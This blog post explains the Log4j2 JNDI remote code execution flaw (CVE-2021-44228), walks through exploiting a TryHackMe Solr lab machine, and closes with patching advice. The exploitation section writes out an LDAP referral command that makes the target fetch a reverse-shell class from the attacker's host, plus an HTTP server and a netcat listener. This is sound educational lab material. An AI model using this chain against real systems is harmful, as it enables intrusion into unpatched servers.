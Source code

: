 ```yaml
---
layout: post
author: Istvan Kis
title: Log4j2 RCE and exploitation example (CVE-2021-44228)
image: log4j-1.jpg
keywords: log4j vulnerability, log4j exploit, CVE-2021-44228, hacker, reverse shell, remote code exection, tryhackme
---
```

{% include image.html src="/images/log4j-1.jpg" alt="Fox is looking really smart with glasses" %}

## What is CVE-2021-44228?

In the first half of December, 2021, ransomware attackers received the perfect Santa gift: an easily exploitable Log4j2 vulnerability. Log4j is a widely used, Java-based logging utility published by Apache initially in 2001. Since then it received many updates, and a major release to version 2. As of today, the latest patched version is 2.16.0 (December 13).

Today we use this flaw and open shell to our target machine.

<!--more-->

## About the vulnerability

However you may think that a logging tool only processes standard text files with proper input sanitising, well, not every time. Log4j allows us to do some extra [lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html) there, using templates. An example from Log4j website:

{% include image.html src="/images/log4j-2.png" alt="Log4j lookup example" %}

The vulnerability is based on the allowance of reaching JNDI (it is a directory service via a Java API, more info [here](https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface)) API through the mentioned lookup mechanism, and there is no restriction for using completely custom prefix in this parameter string. It means that if we use a `jndi:ldap://` with an attacker host's prepared LDAP server, dirty stuff can come (**remote code execution**). For the record we need to mention, that DNS or RMI protocols can work as well.

{% include image.html src="/images/log4j-3.jpg" alt="Log4j attacking architecture" %}

(Credit for the detailed explanation picture above: [Fastly](https://www.fastly.com).)

## Why is it so dangerous?

For multiple reasons: for first, it is very easily exploitable, any script kiddie can take advantage of that. Secondly, there are many affected services because of transitive dependencies. Tons of enterprise softwares use this logging mechanism as external lib. Third part is related to the second one, patching Log4j itself is not enough, you need to check and understand, if your enterprise “black-box” software components use this library or not, and if so, plan and carry out proper risk mitigation.

## Exploitation example

We used [Tryhackme](https://tryhackme.com) box to test the exploit. These guys are committed to teach the people of the internet about awareness, security, penetration testing and many more, therefore I can frankly recommend you to give them a try.

### Starting situation

So we have a vulnerable target computer, which we are **allowed** to hack. There is a limited VPN between this computer (10.10.17.246) and our own attacker machine (10.9.125.225) with Kali linux ran in Virtualbox.

### Recon & discovery

Let’s check, if there are any services available with port scanning. Used an aggressive scanning (**-A**) because of the playing machine (no reason to remain silent), and a dedicated port range for seeing only the relevant port for us. (You should check all ports usually with flag **-p-**).

{% include image.html src="/images/log4j-4.png" alt="Port scanning on target host" %}

We see that Apache Solr is running on port 8983, let’s see it in the browser.

{% include image.html src="/images/log4j-5.png" alt="Solr web interface" %}

We see Log4j2 logging scheme, and it’s [vulnerable](https://solr.apache.org/security.html), as it turns out after a short google-fu. The box itself cheats a bit here, because we can see logs from this host, which would be not available in a real situation. (In those circumstances, instead of watching the logs, we could use directory busting or other attack vectors for finding a vulnerable endpoint.)

{% include image.html src="/images/log4j-6.png" alt="Log analysis of Solr" %}

We think that the template is parameterizable (`params={}`), and also see the `/admin/cores` endpoint. Here we are.

{% include image.html src="/images/log4j-7.png" alt="Solr vulnerable endpoint" %}

We learned from the vulnerability description that through lookups we can reach external ldap or dns servers. It works over TCP, let’s check what happens, if we try to catch that connection attempt with *netcat*.

{% include image.html src="/images/log4j-8.png" alt="LDAP request catch with netcat" %}

Connection is established, but because of LDAP request structure, the output is not readable by humans. However, this is a good sign.

### Exploitation

PoC was successful, now we need a process with a toolset, which can handle LDAP requests, and push an exploit to our Java-based application in an “understandable” format. Obviously, it will mean some kind of Java class(es) / POJO in this case.

The plan is to have an **LDAP relay** or referral server, and a simple **http server**, which can accept this connection and serve the **Java class**, which will open a **reverse shell** to our attacker computer.

For LDAP relay we use [Marshalsec](https://github.com/mbechler/marshalsec) with Maven. I won't go in details about the installation, it's pretty straightforward and well-documented on Github. 

`java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.9.125.225:8000/#Revshell”`

As a webserver, you can use anything handy, we prefer python3 http server. 

`python3 -m http.server`

So LDAP will use Revshell.class on python webserver, but there is nothing yet. This is the last preparation step.

{% include image.html src="/images/log4j-9.png" alt="Reverse shell in Java - source" %}

Let’s compile it with `javac Revshell.java` and copy the class into the python webserver directory. Do not forget that the vulnerability has Java related requirements (pref. Java 7-8 for the build). We used OpenJDK 1.8.0_181.

Run the listener, which will accept the reverse connection, and *fingers crossed*.

`nc -nltvp 1234`

Here is our setup as a whole:

{% include image.html src="/images/log4j-10.png" alt="Schematic draw of the attack" %}

A short video about getting everything ready.

<iframe width="100%" height="394" src="https://www.youtube.com/embed/xfLU5gJP0c8" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

This easy it is to break into systems and receive remote shell via the new Log4j2 vulnerability. It is not a coincidence, that the CVE score of it is 9.7 out of 10, while the CVSS score is 10 out of 10. Absolutely critical.

## What can we do to save our infrastructure?

Patch, patch, patch. Log4j has released fix for the base components, but as we earlier mentioned, we need to cover custom softwares and transitive dependencies as well. Watch the list of vulnerable softwares, contact your vendors, use [WAF](https://en.wikipedia.org/wiki/Web_application_firewall) with proper string filtering, analyse activities, log files and traces. There are a couple online services (e.g. [Trendmicro](https://log4j-tester.trendmicro.com)), which provide remote checks of these threats. We do not recommend these, only if you can truly trust in them.
